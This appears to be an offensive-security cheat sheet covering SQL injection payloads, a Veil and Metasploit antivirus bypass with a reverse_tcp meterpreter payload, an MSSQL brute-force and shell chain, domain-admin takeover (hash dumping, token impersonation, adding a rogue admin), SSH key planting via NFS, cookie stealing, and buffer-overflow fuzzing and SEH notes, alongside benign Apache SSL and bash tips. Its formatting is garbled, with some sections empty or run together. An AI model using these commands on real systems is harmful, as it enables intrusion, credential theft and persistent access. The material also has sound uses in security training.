 # **CheatSheet (Short)** #

### **SCP** ###

```
[+] Secure Copy (scp) Cheatsheet--------------------------------​[>] Copy remote file to local host:​​[>] Copy local file to remote host:​​[>] Copy local directory to remote directory:​​[>] Copy a file from one remote host to another:​​[>] Improve scp performance (use blowfish):​
```

### **SQL Injection** ###

```
[+] Union Based SQL Injection​' or 1=1#​1' ORDER BY 10#​1' UNION SELECT version(),2#​1' UNION SELECT version(),database()#​1' UNION SELECT version(),user()#​1' UNION ALL SELECT table_name,2 from information_schema.tables#​1' UNION ALL SELECT column_name,2 from information_schema.columns where table_name = "users"#​1' UNION ALL SELECT concat(user,char(58),password),2 from users#​​sqlmap --url="" -p username --user-agent=SQLMAP --threads=10 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### **AV bypass** ###

**1.** Generate executable using Veil.  
**2.** In msfconsole setup psexec with relevant payload
```
(windows/meterpreter/reverse_tcp)​msf > use exploit/windows/smb/psexecmsf exploit(psexec) > set RHOST ipRHOST => ipmsf exploit(psexec) > set SMBUser userSMBUser => usermsf exploit(psexec) > set SMBPass passSMBPass => passmsf exploit(psexec) > set EXE::Custom /root/Desktop/Misc/Veil-master/payload.exeEXE::Custom => /root/Desktop/Misc/Veil-master/payload.exemsf exploit(psexec) > exploit
```

### **Apache SSL** ###

- Enabling Self signed certificates on local website1. 
- Install OpenSSL​sudo apt-get install openssl​2. 
- Run the following command to generate the self signed SSL certificates:
```
​sudo openssl req -x509 -nodes -days 1095 -newkey rsa:2048 -out /etc/ssl/certs/server.crt -keyout /etc/ssl/private/server.key​3. 
```
- Enable SSL for Apache​sudo a2enmod ssl​4. 
- Put the default-ssl site available creating a symbolic link:
```
​sudo ln -s /etc/apache2/sites-available/default-ssl.conf /etc/apache2/sites-enabled/000-default-ssl.conf​5
```
- Edit the file default-ssl.conf
```
​sudo nano /etc/apache2/sites-enabled/000-default-ssl.conf​Change
``` 
the following lines to point to the `certs:​SSLCertificateFile    /etc/ssl/certs/server.crtSSLCertificateKeyFile /etc/ssl/private/server.key​6`. 
- Restart Apache
```
​sudo /etc/init.d/apache2 restart
```
### **More Information**  ###

- [https://hallard.me/enable-ssl-for-apache-server-in-5-minutes/](https://hallard.me/enable-ssl-for-apache-server-in-5-minutes/)
- [https://www.sslshopper.com/article-how-to-create-and-install-an-apache-self-signed-certificate.html](https://www.sslshopper.com/article-how-to-create-and-install-an-apache-self-signed-certificate.html)
- [http://www.akadia.com/services/ssh_test_certificate.html](http://www.akadia.com/services/ssh_test_certificate.html)
- [https://www.sslshopper.com/apache-server-ssl-installation-instructions.html](https://www.sslshopper.com/apache-server-ssl-installation-instructions.html)

### **Attacking MS-SQL** ###

```
[+] Attacking MSSQL with Metasploit​[>] Enumerate MSSQL Servers on the network:​msf > use auxiliary/scanner/mssql/mssql_pingnmap -sU --script=ms-sql-info ip ipDiscover more servers using "Browse for More" via Microsoft SQL Server Management Studio.​[>] Bruteforce MSSQL Database:​msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login​[>] Enumerate MSSQL Database:​msf > use auxiliary/admin/mssql/mssql_enum​[>] Gain shell using gathered credentials​msf > use exploit/windows/mssql/mssql_payloadmsf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp​
```

Bash Scripting

```
Simple Bash Scripting Cheatsheet--------------------------------​[+] nano Shortcutsctrl v			Next page.ctrl y			Previous page.ctrl w			Where is (find).ctrl k			Cut that line of test.ctrl x     		Exit editor.​[+] Create a text file:touch file		Creates an empty file.ifconfig > tmp	pipe the output of a commandnano file​[+] Create a file and append text to it:ifconfig > tmp     echo >> tmpping google.com -c3 >> tmp​[+] How to view a file:cat file		Show entire contents of file.more file		Show one page at a time.  Space bar for next page and (q) to exit.head file		Show the first 10 lines.head -15 file	Show the first 15 lines.tail file		Show the last 10 lines.tail -15 file	Show the last 15 lines.tail -f file	Useful when viewing the output of a log file.​[+] pipecat tmp | grep Bcast	Feeds the output of one process to the input of another process.​[+] Processesps aux			Show all running process for all users.kill -9 PID		Nicely kill a PID.​[+] Word Countwc -l tmp2		Count the number of lines in a file​[+] cut-d  delimiter-f  fields​[+] sortSort by unique		sort -u filesort IP addresses correct		sort -t . -k 1,1n -k 2,2n -k 3,3n -k 4,4ncat tmp2 | cut -d '(' -f2 | cut -d ')' -f1 | sort -u		Isolate the IP address​[+] awkawk '{print $1}' file 		Show the 1st column.awk '{print $1,$5}' file 	Show the 1st and 5th columns.​[+] grepgrep -v		Remove a single string.grep -v 'red' file​[+] egrep -vRemove multiple strings	egrep -v '(red|white|blue)' file​[+] sedsed 's/FOO/BAR/g' file 		Replace FOO with BAR.sed 's/FOO//g' file 		Replace FOO with nothing.sed '/^FOO/d' file 			Remove lines that start with FOO.​[+] colour31=red 32=green 33=yellow 34=blue 35=magenta 36=cyan echo -e "\e[1;34mThis is a blue text.\e[0m"​​​​Bash Scripts------------​[+] Simple bash script:#!/bin/bashclearechoechoprint "Hello world."​[+] Make a file executable.chmod +x filechmod 755 file​[+] Variablesname=Bobecho $nameuser=$(whoami)echo $userecho 'Hello' $name. 'You are running as' $user.​#!/bin/bashclearecho "Hello World"name=Bobip=`ifconfig | grep "Bcast:" | cut -d":" -f2 | cut -d" " -f1`echo "Hello" $name "Your IP address is:" $ip​[+] User Inputread -p "Domain: " domain​#!/bin/bashecho "Please input your domain:"read -p "Domain:" domainping -c 5 $domain​[+] Check For No User Inputif [ -z $domain ]; then	echo	echo "#########################"	echo	echo "Invalid choice."	echo	exitfi​[+] For loops#!/bin/bash​for host in $(cat hosts.txt)do	command $hostdone​[+] One Liners​Port Scan:for port in $(cat Ports.txt); do nc -nzv ip $port & sleep 0.5; done
```

CTF CS

```
CTF Notes---------​# Enumerate Users via Finger​# Show nfs shares availableshowmount -e ip​# User nfspysh to mount share and create .ssh directorynfspysh -o server=ip:/home/usermkdir .sshcd .ssh​# Generate ssh key pairssh-keygencp id_rsa.pub /tmp/authorized_keys​# Transfer attacker public key to hostput /tmp/authorized_keysexit​# Login to SSH server with no password​​
```

Cookie Stealing

```
[+] Cookie Stealing:​[-] Start Web Service​python -m SimpleHTTPServer 80​[-] Use one of the following XSS payloads:​
```

Domain Admin Exploitation

```
[+] After compromising a Windows machine:​[>] List the domain administrators:From Shell - net group "Domain Admins" /domain​[>] Dump the hashes (Metasploit)msf > run post/windows/gather/smart_hashdump GETSYSTEM=FALSE​[>] Find the admins (Metasploit)spool /tmp/enumdomainusers.txtmsf > use auxiliary/scanner/smb/smb_enumusers_domainmsf > set smbuser Administratormsf > set smbpass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0msf > set rhosts ip/24msf > set threads 8msf > run​msf> spool off​[>] Compromise Admin's boxmeterpreter > load incognitometerpreter > list_tokens -umeterpreter > impersonate_token MYDOM\\adaministratormeterpreter > getuidmeterpreter > shell​C:\> whoamimydom\adaministratorC:\> net user hacker /add /domainC:\> net group "Domain Admins" hacker /add /domain
```

Exploit-Dev

```
Exploit Development Cheatsheet------------------------------​[+] Fuzzing:​import socket​buffer = ["A"]counter = 50​while len(buffer) <= 1000:    buffer.append("A" * counter)    counter = counter + 50​for buffstring in buffer:    print "Fuzzing:" + str(len(buffstring))    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    sock.connect( ("192.168.0.20", 5555) )    sock.send(buffstring)    sock.close()​[+] Bad Character Testing:​"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e""\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d""\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c""\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b""\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a""\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59""\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68""\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77""\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86""\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95""\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4""\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3""\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2""\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1""\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0""\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef""\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe""\xff"​​[+] Structured Exception Handler (SEH) Exploitation notes​- Crash the application- Check SEH overwirte (view-seh chain)- Find offset (!mona pattern_create )- Find certain SEH references to the cyclic pattern (!mona findmsp)- Verify offset to NSEH (Next Exception)- Find POP/POP/RET address with mona (!mona seh -cpb )- Add short jump into payload to jump ofver SEH ("\xeb\x06" + 2 bytes of padding)- Add shellcode to the payload- Ensure existing padding to make sure the crash still happens.
```

​
